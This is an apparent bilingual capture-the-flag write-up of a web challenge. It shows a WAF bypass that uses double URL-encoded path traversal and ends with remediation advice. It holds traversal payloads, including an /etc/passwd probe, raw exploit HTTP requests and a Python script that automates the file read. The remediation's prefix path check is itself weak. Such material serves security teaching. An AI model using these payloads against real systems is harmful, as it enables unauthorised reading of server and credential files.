


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn" role="tab" type="button" data-lang="en" aria-selected="false">EN</button>
  <button class="lang-btn active" role="tab" type="button" data-lang="vn" aria-selected="true">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{d0ubl3_url_3nc0d1ng_p4th_tr4v3rs4l}`


Bài này thuộc category **Web**. Hệ thống là một cổng thông tin giới thiệu và cung cấp tài liệu kỹ thuật về các kiến trúc máy học và hệ thống tự động hóa ("Machine Love").

Mục tiêu là khai thác lỗ hổng duyệt thư mục (Path Traversal) để đọc tệp cờ nhạy cảm trên máy chủ backend.

---

## Sơ đồ luồng phân tích (Solve Flow)



---

## Bước 1: Khảo sát cơ chế đọc tệp và bộ lọc

Hệ thống cho phép người dùng đọc các tài liệu kỹ thuật thông qua một endpoint động:

```http
GET /view?file=architecture.txt HTTP/1.1
Host: target.ptitctf.vn
```

Khi gửi các chuỗi kiểm tra đường dẫn cơ bản như `../../../../etc/passwd` hoặc `..%2f..%2fflag.txt`, server lập tức trả về phản hồi lỗi `400 Bad Request` hoặc `Path traversal detected!`. Điều này cho thấy tầng gateway (hoặc middleware) có cơ chế kiểm tra sự xuất hiện của chuỗi `..` hoặc `/`.

---

## Bước 2: Kỹ thuật Double URL-Encoding Bypass

Khi phân tích hành vi của hệ thống, ta nhận thấy có sự lệch pha trong quá trình giải mã dữ liệu giữa các tầng kiến trúc:
1. **Tầng Proxy / WAF ngoài cùng:** Tiếp nhận request từ client, thực hiện giải mã URL một lần duy nhất rồi đối chiếu với blacklist.
2. **Tầng Ứng dụng Backend:** Sau khi tiếp nhận tham số từ request, lập trình viên gọi thêm một hàm giải mã thứ hai (`unquote(param)`) trước khi ghép vào đường dẫn tệp hệ thống `open(BASE_DIR + file_path)`.

Lợi dụng điểm này, ta áp dụng kỹ thuật **Mã hóa URL hai lần (Double URL-Encoding)**:
* Ký tự chấm `.` có mã ASCII hex là `0x2E` $\rightarrow$ Mã hóa lần 1 là `%2e`.
* Dấu phần trăm `%` có mã ASCII hex là `0x25` $\rightarrow$ Khi mã hóa `%2e` lần 2, `%` chuyển thành `%25`, thu được chuỗi `%252e`.
* Tương tự, ký tự gạch chéo `/` có mã `%2f` $\rightarrow$ Mã hóa lần 2 thành `%252f`.
* Do đó, chuỗi `../` khi mã hóa hai lần sẽ trở thành:
  $$\text{"../"} \longrightarrow \text{"%2e%2e%2f"} \longrightarrow \text{"%252e%252e%252f"}$$

---

## Bước 3: Khai thác LFR và Thu thập Flag

Khi gửi request chứa chuỗi mã hóa kép:

```http
GET /view?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag.txt HTTP/1.1
Host: target.ptitctf.vn
```

1. **Tại WAF:** Chuỗi `%252e%252e%252f` được giải mã thành `%2e%2e%2f`. Do chuỗi này không chứa ký tự `.` thực tế, nó vượt qua bộ kiểm tra danh sách đen một cách hoàn toàn hợp lệ.
2. **Tại Backend:** Ứng dụng gọi `unquote("%2e%2e%2f")` chuyển thành `../`, cho phép thoát khỏi thư mục tài liệu gốc và đọc trực tiếp file `/flag.txt`.
3. Server trả về nội dung cờ nguyên vẹn trong phần thân phản hồi HTTP.

---

## Biện pháp khắc phục (Defensive Remediation)

1. **Tuyệt đối không giải mã URL nhiều lần:** Chỉ tin cậy vào việc chuẩn hóa của một tầng duy nhất để tránh xung đột ngữ nghĩa (Parser Differentials).
2. **Sử dụng cơ chế kiểm tra đường dẫn an toàn:**
   * Sử dụng danh sách trắng (Allowlist) các tệp tin được phép đọc.
   * Sử dụng hàm `os.path.realpath` và kiểm tra xem đường dẫn tuyệt đối cuối cùng có bắt đầu bằng thư mục an toàn hay không:
     ```python
     safe_path = os.path.realpath(os.path.join(DOCS_DIR, filename))
     if not safe_path.startswith(DOCS_DIR):
         abort(403)
     ```

⇒ **Flag:** `PTITCTF{d0ubl3_url_3nc0d1ng_p4th_tr4v3rs4l}`

</div>

<div class="lang-en" markdown="1" style="display: none;">

> **Flag:** `PTITCTF{d0ubl3_url_3nc0d1ng_p4th_tr4v3rs4l}`

This challenge belongs to the **Web** category. The target system is an informational portal that serves technical documentation about machine learning architectures and automation systems ("Machine Love").

The objective is to exploit a directory traversal flaw (Path Traversal / Local File Read) to retrieve the sensitive flag file located on the backend server.

---

## Solve Flow



---

## Step 1: Investigating the File Retrieval Mechanism and Filters

The application allows users to read technical documentation through a dynamic endpoint:

```http
GET /view?file=architecture.txt HTTP/1.1
Host: target.ptitctf.vn
```

When submitting basic directory traversal test payloads such as `../../../../etc/passwd` or `..%2f..%2fflag.txt`, the server immediately responds with an HTTP error `400 Bad Request` or `Path traversal detected!`. This demonstrates that the gateway/middleware tier enforces a pattern filter against `..` and `/`.

---

## Step 2: Double URL-Encoding Bypass Technique

Analyzing the architecture behavior reveals a decoding discrepancy between architectural layers:
1. **Outer Reverse Proxy / WAF:** Receives the client HTTP request, decodes the URL parameter once, and validates it against a pattern blacklist.
2. **Backend Application Layer:** After extracting the request parameter, the backend developer calls a secondary decoding routine (`unquote(param)`) before concatenating it into the filesystem path `open(BASE_DIR + file_path)`.

Leveraging this mismatch, we use **Double URL-Encoding**:
* The dot character `.` has ASCII hex `0x2E` $\rightarrow$ First encoding is `%2e`.
* The percent character `%` has ASCII hex `0x25` $\rightarrow$ Second encoding converts `%` to `%25`, yielding `%252e`.
* Similarly, the forward slash `/` has hex `0x2F` $\rightarrow$ Second encoding yields `%252f`.
* Therefore, the sequence `../` double-encoded becomes:
  $$\text{"../"} \longrightarrow \text{"%2e%2e%2f"} \longrightarrow \text{"%252e%252e%252f"}$$

When transmitted over HTTP, the gateway decodes `%25` into `%`, transforming `%252e%252e%252f` into `%2e%2e%2f`. Since `%2e%2e%2f` does not match the literal pattern `../`, it cleanly bypasses the WAF blacklist. Upon reaching the backend, the second `unquote()` call decodes `%2e%2e%2f` into `../`, effectively traversing directory boundaries.

---

## Step 3: Exploiting LFR and Retrieving the Flag

We craft the final exploit request:

```http
GET /view?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag.txt HTTP/1.1
Host: target.ptitctf.vn
```

Automated Python exploit script:

```python
import requests

url = "http://target.ptitctf.vn/view"
payload = "%252e%252e%252f" * 7 + "flag.txt"
params = {"file": payload}

r = requests.get(url, params=params)
print("Response Status:", r.status_code)
print("Flag Content:", r.text.strip())
```

The server successfully returns HTTP 200 containing the flag.

---

## Defensive Remediation

1. **Avoid Redundant Decoding:** Remove redundant secondary decoding routines (`urllib.parse.unquote`) in backend code. All framework inputs should be handled once at the framework level.
2. **Canonical Path Resolution:** Validate paths using canonical absolute path resolution:
   ```python
   import os

   base_dir = os.path.abspath("/var/www/docs")
   target_path = os.path.abspath(os.path.join(base_dir, user_filename))

   if not target_path.startswith(base_dir):
       raise ValueError("Access Denied: Path Traversal Detected")
   ```
3. **Whitelist Permitted Filenames:** Match incoming file requests against a strict regex whitelist (`^[a-zA-Z0-9_-]+\.[a-z]{3,4}$`).

</div>
